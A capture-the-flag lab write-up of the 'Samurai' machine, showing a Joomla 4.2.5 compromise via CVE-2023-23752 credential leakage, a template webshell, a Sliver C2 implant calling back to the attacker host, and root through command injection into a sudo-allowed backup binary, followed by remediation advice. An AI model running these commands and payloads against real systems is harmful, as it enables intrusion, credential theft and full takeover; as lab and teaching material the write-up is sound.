








`[CVE-2023-23752]` `[INFORMATION DISCLOSURE]` `[JOOMLA]` `[WEBSHELL]` `[SLIVER C2]` `[COMMAND INJECTION]` `[SUDO ABUSE]`

# Samurai


**Hack Smarter Labs — by jhaxx**

---

| Field | Value |
|---|---|
| Target IP | `10.1.4.149` |
| Hostname | `samurai.hsm` |
| Operating System | Ubuntu Linux (Apache 2.4.52) |
| Difficulty | Easy |
| Attacker IP | `10.200.53.155` (tun0) |

---

## Scenario

### Objective / Scope

Samurai is a Hack Smarter Labs machine centred on a publicly exposed Joomla! CMS with an unpatched unauthenticated information disclosure vulnerability. The attack objective is to leverage the CVE to extract database credentials, abuse the Joomla admin template editor to plant a webshell, and then escalate privileges by exploiting an insecure custom SUID binary that passes unsanitised user input directly to a shell command.

---

<details>
<summary>Summary</summary>

Initial nmap and directory enumeration reveals an Apache web server running a Joomla! installation at `samurai.hsm`, with an administrator login portal at `/administrator/`. Running `joomscan` fingerprints the CMS as version 4.2.5 — a version affected by CVE-2023-23752, an unauthenticated information disclosure vulnerability in Joomla!'s REST API that exposes configuration data including database credentials. A Ruby exploit from the Acceis repository queries the vulnerable endpoint and returns the site's database connection details, including the password for user `Oda (Miyamoto)`. These credentials work directly against the Joomla admin portal. Once authenticated, we navigate to System → Site Templates, select the Cassiopia theme, and overwrite `error.php` with a PHP webshell. The webshell is reachable at `/templates/cassiopia/error.php` and provides full RCE as `www-data`. We upload a Sliver C2 implant to `/tmp`, make it executable, and establish a stable mTLS session. Post-exploitation enumeration with `sudo -l` reveals that `www-data` can execute `/opt/backup/DbMaria` as root without a password. Running `strings` on the binary exposes its internal logic: it builds a shell command via `snprintf`, inserting `argv[1]` directly into a `mariadb-dump` invocation and passing it to `system()`. Injecting a command separator into the argument — `sudo /opt/backup/DbMaria 'test; /bin/bash -p #'` — terminates the dump command early and spawns a privileged root shell, with the trailing `#` commenting out any suffix the binary appends.

</details>

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn 10.1.4.149
```

```
# Console Output
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 c3:5a:83:50:80:9a:61:37:05:b7:45:96:cb:ab:1d:1e (ECDSA)
|   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDnWIbBLcbSbZZmw8nDh5DOA9ecneGMU8Ff1Rm8Frp71DcloANVhYkmErZ3+o839XNGO+k2tmXeNcwJ8jICj06M=
|   256 6b:15:12:60:1b:21:d1:bf:7e:b8:c0:e8:d7:7e:7b:6b (ED25519)
|_  ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP9JIv57fNRXYSBb4BDtI+WNZG/hfJuGHaaMLL7Iu9PG
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 3E18B73692FF5A74F54EFFB2E047C8CB
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Samurai
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH has password authentication enabled but no valid credentials yet. The HTTP service reveals a custom page titled "Samurai" — we note the hostname, add it to `/etc/hosts`, and enumerate the web surface.

### Dirsearch

```bash
dirsearch -u http://samurai.hsm
```

```
# Console Output
[02:51:39] 301 -  318B  - /administrator  ->  http://samurai.hsm/administrator/
[02:51:39] 200 -   31B  - /administrator/cache/
[02:51:39] 301 -  323B  - /administrator/logs  ->  http://samurai.hsm/administrator/logs/
[02:51:39] 200 -   31B  - /administrator/logs/
[02:51:39] 403 -  276B  - /administrator/includes/
[02:51:42] 301 -  308B  - /api  ->  http://samurai.hsm/api/
[02:51:46] 200 -    4KB - /administrator/
[02:51:47] 301 -  311B  - /assets  ->  http://samurai.hsm/assets/
[02:51:47] 403 -  276B  - /assets/
[02:51:47] 200 -    4KB - /administrator/index.php
[02:51:50] 200 -   31B  - /cache/
[02:51:50] 301 -  310B  - /cache  ->  http://samurai.hsm/cache/
[02:51:52] 200 -   31B  - /cli/
[02:51:53] 301 -  315B  - /components  ->  http://samurai.hsm/components/
[02:51:53] 200 -   31B  - /components/
[02:51:55] 200 -    0B  - /configuration.php
[02:52:07] 200 -    3KB - /htaccess.txt
[02:52:08] 200 -   31B  - /images/
[02:52:08] 301 -  311B  - /images  ->  http://samurai.hsm/images/
[02:52:09] 301 -  313B  - /includes  ->  http://samurai.hsm/includes/
[02:52:09] 200 -   31B  - /includes/
[02:52:11] 301 -  313B  - /language  ->  http://samurai.hsm/language/
[02:52:11] 200 -   31B  - /layouts/
[02:52:12] 200 -    7KB - /LICENSE.txt
[02:52:16] 301 -  310B  - /media  ->  http://samurai.hsm/media/
[02:52:16] 200 -   31B  - /media/
[02:52:18] 301 -  312B  - /modules  ->  http://samurai.hsm/modules/
[02:52:18] 200 -   31B  - /modules/
[02:52:25] 301 -  312B  - /plugins  ->  http://samurai.hsm/plugins/
[02:52:25] 200 -   31B  - /plugins/
[02:52:29] 200 -    2KB - /README.txt
[02:52:32] 403 -  276B  - /server-status/
[02:52:38] 200 -   31B  - /templates/
[02:52:38] 301 -  314B  - /templates  ->  http://samurai.hsm/templates/
[02:52:38] 200 -   31B  - /templates/index.html
[02:52:39] 200 -    0B  - /templates/system/
[02:52:40] 200 -   31B  - /tmp/
[02:52:40] 301 -  308B  - /tmp  ->  http://samurai.hsm/tmp/
[02:52:46] 200 -  877B  - /web.config.txt
```

The directory structure is immediately recognisable as Joomla!: `/administrator/`, `/components/`, `/modules/`, `/plugins/`, `/templates/`, and a readable `LICENSE.txt` all follow the standard Joomla layout. The `/administrator/` path resolves to a login portal — this is our primary target.



---

## Foothold

### Joomscan — Version Fingerprint

```bash
joomscan -u http://10.1.4.149 -ec
```

```
# Console Output
[+] Detecting Joomla Version
[++] Joomla 4.2.5

[+] admin finder
[++] Admin page : http://10.1.4.149/administrator/
```

`joomscan` confirms Joomla! **4.2.5**. Versions below 4.2.8 are affected by CVE-2023-23752 — an unauthenticated REST API information disclosure that exposes the site's database configuration.

### CVE-2023-23752 — Unauthenticated Information Disclosure



> 💡 **Author's Note:** The notes reference this as "CVE-2023-2375" in the section heading. The correct CVE identifier is **CVE-2023-23752** — the Joomla! 4.0.0–4.2.7 unauthenticated information disclosure. CVE-2023-23752 is the identifier used by all public PoC tooling, Exploit-DB (`51334.py`), and NVD. The notes' section body and the exploit URL both reference the correct CVE consistently; only the heading contained a typo.

`searchsploit` finds the same vulnerability — Exploit-DB entry 51334 — confirming the attack surface:

```bash
SS Joomla 4.2
```

```
# Console Output
Joomla! v4.2.8 - Unauthenticated information disclosure | php/webapps/51334.py
```

We use the Ruby exploit from Acceis, which queries the vulnerable `/api/index.php/v1/config/application?public=true` endpoint directly and parses the JSON response into human-readable output. Install dependencies first:

```bash
gem install httpx docopt paint
```

```bash
ruby exploit.rb http://samurai.hsm
```

```
# Console Output
Users
[769] Oda (Miyamoto) - oda@local.local - Super Users

Site info
Site name: Samurai
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: joomla425
DB password: <PASSWORD REDACTED>
DB name: Dbjoomla
DB prefix: iemj4_
DB encryption 0
```

The endpoint returns the full database configuration including the plaintext password. The `Oda (Miyamoto)` account is listed as a Super User — the highest Joomla! privilege level. We test these DB credentials directly against the administrator portal.



### Joomla Admin Login — Template Webshell

Navigating to `http://samurai.hsm/administrator/` and authenticating as `Oda` with the leaked database password succeeds — the password is reused across the database account and the CMS admin account.



With administrator access, the Joomla! template editor gives us direct PHP file write access to the web root. We navigate to **System → Templates → Site Templates** and select the active **Cassiopia** theme:



We open `error.php` from the template file list and overwrite its contents with a PHP webshell:





After saving, the webshell is live at `http://samurai.hsm/templates/cassiopia/error.php` and accepts commands via the `cmd` GET parameter:



### Sliver C2 — Shell as `www-data`

A browser-based webshell is brittle and leaves a clear access trail in the Apache logs. We use it to upload a compiled Sliver C2 implant and establish a stable encrypted session. On the attack machine:

```bash
sliver-server
```

```
# Console Output
[server] sliver > mtls --lhost 10.200.53.155
[!] rpc error: code = AlreadyExists desc = port 8888 is in use

[server] sliver > mtls --lhost 10.200.53.155 --lport 1337
[*] Starting mTLS listener ...
[*] Successfully started job #2

[server] sliver > generate -o linux -a 64bit -m 10.200.53.155:1337
[*] Generating new linux/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 55s
[*] Implant saved to /home/jhaxx/CTFs/HackSmarter/Samurai/exploits/ACCEPTED_HABIT
```

> 💡 **Author's Note:** The initial `mtls` command failed because port 8888 was already bound from a previous listener. Specifying `--lport 1337` resolves this immediately.

We upload `ACCEPTED_HABIT` to the target via the webshell, make it executable, and trigger it:

```bash
chmod +x /tmp/ACCEPTED_HABIT && /tmp/ACCEPTED_HABIT &
```

```
# Console Output (Sliver server)
[*] Session 59deb7bb ACCEPTED_HABIT - 10.1.4.149:57394 (streetcoder) - linux/amd64 - Wed, 06 May 2026 14:37:44 EDT

[server] sliver > use 59deb7bb

[server] sliver (ACCEPTED_HABIT) > whoami

Logon ID: www-data
```

We have a confirmed session as `www-data` on host `streetcoder`. The `shell` command drops us to a standard interactive shell for the privilege escalation phase.

---

## Privilege Escalation

### Sudo Enumeration

```bash
sudo -n -l
```

```
# Console Output
Matching Defaults entries for www-data on streetcoder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin,
    use_pty

User www-data may run the following commands on streetcoder:
    (root) NOPASSWD: /opt/backup/DbMaria
```

`www-data` can run `/opt/backup/DbMaria` as root without a password. This is a non-standard binary in `/opt/` — a strong signal that it may be vulnerable. Before attempting exploitation, we inspect it with `strings` to understand what it does:

```bash
strings /opt/backup/DbMaria | head -50
```

```
# Console Output
/lib64/ld-linux-x86-64.so.2
__cxa_finalize
__libc_start_main
system
setuid
snprintf
__stack_chk_fail
libc.so.6
GLIBC_2.2.5
GLIBC_2.4
GLIBC_2.34
Usage: %s <database>
mariadb-dump --socket=/run/mysqld/mysqld.sock -u root %s > /tmp/backup.sql
```

Three findings make this immediately exploitable:

| Symbol / String | Implication |
|---|---|
| `system` in imports | Binary calls `system()` — the argument is passed to `/bin/sh -c` |
| `snprintf` near `%s` | User input is interpolated into a command string |
| `mariadb-dump ... %s` | Our input lands at `%s` with no sanitisation |
| `setuid` in imports | Binary elevates privileges before calling `system()` — injection = root |
| `mariadb-dump` (relative path) | Also vulnerable to PATH hijacking (not pursued here) |

### Command Injection — Root Shell

The binary's internal logic reconstructs to:

```c
snprintf(cmd, sizeof(cmd),
    "mariadb-dump --socket=/run/mysqld/mysqld.sock -u root %s > /tmp/backup.sql",
    argv[1]);
system(cmd);
```

`argv[1]` — our input — is placed directly into `%s` and the entire string is handed to `system()`. Shell metacharacters are interpreted as shell syntax. We inject a command separator to terminate the `mariadb-dump` invocation early and append our own command:

```bash
sudo /opt/backup/DbMaria 'test; /bin/bash -p #'
```

```
# Console Output
/*M!999999\- enable the sandbox mode */
-- MariaDB dump 10.19  Distrib 10.6.23-MariaDB, for debian-linux-gnu (x86_64)
-- Host: localhost    Database: test
-- Server version       10.6.23-MariaDB-0ubuntu0.22.04.1
mariadb-dump: Got error: 1049: "Unknown database 'test'" when selecting the database

root@streetcoder:/tmp# whoami
root
```

Breaking down `'test; /bin/bash -p #'`:

- **`test`** — satisfies the `%s` slot; `mariadb-dump` runs (and fails on the unknown DB, but that doesn't matter)
- **`;`** — shell command separator; terminates the first command and begins the next
- **`/bin/bash -p`** — spawns bash in privileged mode, preserving the root EUID granted by `setuid()` inside the binary
- **`#`** — comments out `> /tmp/backup.sql`, preventing the redirect from causing a shell syntax error

> **Alternative Path — PATH Hijacking (Unexplored)**
>
> `strings` also shows `mariadb-dump` is called without an absolute path. An attacker could create a malicious `mariadb-dump` script in `/tmp`, prepend `/tmp` to `$PATH`, then run `sudo /opt/backup/DbMaria anydb`. The OS would resolve `mariadb-dump` to our script and execute it as root. This path was identified but not pursued — command injection is faster and requires no file writes.

```bash
cat /root/root.txt
```

```
# Console Output
<FLAG REDACTED>
```

---

## Remediation

- **Patch Joomla! immediately:** CVE-2023-23752 is fixed in Joomla! 4.2.8 and 5.0.0. The `/api/index.php/v1/config/application` endpoint must require authentication. Upgrade or apply the vendor patch before any other remediation step — everything downstream flows from this credential leak.
- **Separate database and application credentials:** The database password must never double as a CMS admin account password. Enforce unique, randomly generated credentials for each service boundary; rotating one must not affect the other.
- **Restrict template file editing in Joomla!:** Disable the built-in PHP template editor for production environments (`Global Configuration → Templates → Allow editing of template files = No`). Template file writes should go through a deployment pipeline, not the admin UI.
- **Audit all NOPASSWD sudo entries:** Any binary listed under `(root) NOPASSWD:` is a privilege escalation surface. For `/opt/backup/DbMaria` specifically: pass the database name as an environment variable or a whitelist-checked internal argument rather than interpolating it directly into a shell string. Use `execve()` with an explicit argument array instead of `system()` to eliminate shell injection entirely.
- **Use absolute paths in compiled binaries:** The relative `mariadb-dump` invocation enables PATH hijacking in addition to the command injection. Always specify the full path (`/usr/bin/mariadb-dump`) when calling external tools from a SUID/sudo context.
